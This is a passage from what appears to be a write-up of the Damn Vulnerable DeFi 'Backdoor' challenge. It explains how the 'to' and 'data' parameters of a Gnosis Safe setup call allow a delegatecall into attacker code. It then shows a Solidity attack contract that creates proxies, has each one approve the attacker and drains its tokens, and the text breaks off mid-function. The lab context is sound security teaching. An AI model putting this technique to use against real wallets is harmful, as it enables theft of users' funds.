```
    // As setupOwners can only be called if the contract has not been initialized we don't need a check for setupModules
    setupModules(to, data);

    if (payment > 0) {
        // To avoid running into issues with EIP-170 we reuse the handlePayment function (to avoid adjusting code of that has been verified we do not adjust the method itself)
        // baseGas = 0, gasPrice = 1 and gas = payment => amount = (payment + 0) * 1 = payment
        handlePayment(payment, 0, 1, paymentToken, paymentReceiver);
    }
    emit SafeSetup(msg.sender, _owners, _threshold, to, fallbackHandler);
}
```

The `to` and `data` parameters stood out to me because they're parameters we can control **and** it's for a delegate call.
This means we're able to execute an arbitrary payload at an arbitrary address in the context of the safe. We can point this
at our attack contract and execute an ERC20 `approve` on behalf of the safe. Once we have a approval, we can transfer the tokens. Here's the attack contract:

```
contract BackdoorAttacker {
    function attack(
        address walletFactory,
        address singleton,
        IProxyCreationCallback walletRegistry,
        address _dvt,
        address[] memory beneficiaries
    ) external {
        DamnValuableToken dvt = DamnValuableToken(_dvt);
        GnosisSafeProxyFactory factory = GnosisSafeProxyFactory(walletFactory);

        for (uint256 i = 0; i < beneficiaries.length; ++i) {
            address[] memory owners = new address[](1);
            owners[0] = beneficiaries[i];

            // Set "to" to us. The GnosisSafeProxy will deletegate call to our `receveSetupCall` function
            // where we can do a DVT.approve for the attacker.
            GnosisSafeProxy proxy = factory.createProxyWithCallback(
                singleton,
                abi.encodeWithSelector(
                    GnosisSafe.setup.selector,
                    owners, // owners
                    1, // _threshold
                    address(this), // to
                    abi.encodeWithSelector(this.receiveSetupCall.selector, address(this), _dvt), // data
                    address(0), // fallbackHandler
                    address(0), // paymentToken
                    0, // payment
                    payable(address(0)) // paymentReceiver
                ),
                0,
                walletRegistry
            );

            dvt.transferFrom(address(proxy), msg.sender, dvt.balanceOf(address(proxy)));
        }
    }

    // The proxy delegate calls to us. We can transfer tokens to the attacker
    function receiveSetupCall(address attackContract, address _dvt) external {
```